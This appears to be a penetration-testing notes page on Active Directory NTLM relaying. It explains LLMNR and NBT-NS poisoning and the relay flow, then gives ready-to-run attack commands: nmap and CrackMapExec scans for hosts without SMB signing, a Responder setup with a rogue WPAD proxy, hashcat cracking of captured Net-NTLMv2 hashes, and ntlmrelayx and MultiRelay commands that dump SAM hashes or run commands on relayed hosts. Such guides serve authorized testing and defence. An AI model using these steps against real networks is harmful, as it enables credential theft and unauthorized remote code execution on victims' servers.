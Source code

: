 # Active Directory - NTLM Relaying

### Overview

The **LLMNR and NBT-NS poisoning attack**, combined with the **SMB Relay
attack**, or **NTLM Relaying**, can be used to gain an authenticated access to
servers by capturing local network SMB authentication traffic and relaying it to
targets servers.

Even when the organization has good patch management practices, this reliable
and effective attack can almost always be leveraged to obtain an initial
foothold.

###### LLMNR and NBT-NS poisoning

The **Link-Local Multicast Name Resolution (LLMNR)** and **Netbios Name
Service (NBT-NS)** protocols can be abused to intercept local network traffic.

These components allow machines on the same subnet to identify hosts when DNS
resolution fails. If one machine tries to resolve a particular host, but DNS
resolution fails, the machine will then attempt to ask all other machines on
the local network for the correct address via LLMNR or NBT-NS.

An attacker can listen on a network for these LLMNR (UDP/5355) or NBT-NS
(UDP/137) broadcasts requests and respond to them, thus pretending to be the
requested host.

###### NTLM relaying

The **NT LAN Manager v1 and v2** authentication process, used in by the
**Server Message Block (SMB)** protocol can be subverted.

The attack unwinds as follow:
  1. The victim tries to authenticates himself to a server
     (SMB_COM_NEGOTIATE Request)
  2. The authentication request is intercepted by an attacker
  3. The attacker initiates an authentication procedure to a targeted server
     and retrieves an authentication challenge (NTLM_CHALLENGE_MESSAGE) from
     this server
  4. The attacker forwards this challenge to the victim
  5. The victim answers the challenge to the attacker
     (NTLM_AUTHENTICATION_MESSAGE)  
  6. The attacker can then relay the victim challenge response to the targeted
     server to authenticate as the victim
  7. If the victim has local admin rights on the server, an complete access can
     be acquired   

Since MS08-068 you cannot relay a Net-NTLM hash back to the same machine you
got it from (e.g. the 'reflective' attack) unless you're performing a
cross-protocol relay.

For the attack to work, SMB Signing needs to be disabled on the targeted
machine. While SMB packet signing is available in all supported versions of
Windows, it is enabled by default on Domain Controllers.

### Exploit

*
To capture and offline crack the hashes captured, do not disable Responder SMB
and HTTP servers. The authentication attempt won't be transmitted to the relay
servers and no NTLM relaying is possible.  
To crack the Net-NTLMv2 hashes use hashcat:  
hashcat -m 5600 <HASHFILE> <WORDLIST> -o <OUTPUTFILE>
*

First, a list of host with SMB signing must be gathered. Either nmap or
CrackMapExec V4 can be used.

Responder can be used to conduct the LLMNR and NBT-NS poisoning
attack and the ntlmrelayx.py Impacket's or MultiRelay.py, that comes
with the Responder toolkit, scripts can be used for the NTLM relaying.  

##### List SMB Signing disabled hosts

Either nmap or CMEv4 can be used to gather a list of host with SMB signing
disabled and output the result to a file:

```bash
nmap -v -sU -sS --open -oA nmap_smb_signing_off --script smb-security-mode.nse -p U:137,T:139,445 <TARGETS>
cat nmap_smb_signing_off.nmap | grep -B 14 "message_signing: disabled" | grep "Nmap scan report for" | cut -d " " -f 5 > <FILE>

cme smb <TARGETS> --gen-relay-list <FILE>
```

##### Intercepting

To check if a specific host, identified by its hostname, has LLMNR activated:

```
nmap --script llmnr-resolve --script-args 'llmnr-resolve.hostname=<HOSTNAME>'
nmap --script llmnr-resolve --script-args 'llmnr-resolve.hostname=<HOSTNAME>' -e <NETWORK_INTERFACE>

# Metasploit
use auxiliary/scanner/llmnr/query
set NAME <HOSTNAME>
run
```

If LLMNR is disabled, system have been hardened but NBT-NS may still be enabled.

Responder can be used to conduct the LLMNR and NBT-NS poisoning
attack.

*Do not use the version of Responder on SpiderLab's Github repository as it
isn't maintained anymore, use lgandx's fork instead.*

Edit the Responder.conf file and turn off the SMB and HTTP servers:

```
[Responder Core]

; Servers to start
SQL = On
SMB = Off     # Turn this off
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off    # Turn this off
HTTPS = On
DNS = On
LDAP = On
```

With those servers turned off, the authentication attempts captured are
automatically passed to ntlmrelayx.py's SMB and HTTP servers for the relay
attack.

Start Responder :

```
# -r : Enable answers for netbios wredir suffix queries
# -d : Enable answers for netbios domain suffix queries
# -w :  Start the WPAD rogue proxy server

python Responder.py -I <NETWORK_INTERFACE> -r -d -w
```

##### Relaying

The ntlmrelayx.py Impacket's or MultiRelay.py, that comes
with the Responder toolkit, scripts can be used for the NTLM relaying part:  

```
# ntlmrelayx - By default, dump SAM base.
ntlmrelayx.py -tf <TARGETS_FILE>
ntlmrelayx.py -tf targets.txt -c <COMMAND>

# MultiRelay
MultiRelay.py -t <target host> -c <'command to run'> -u <user to target>
```
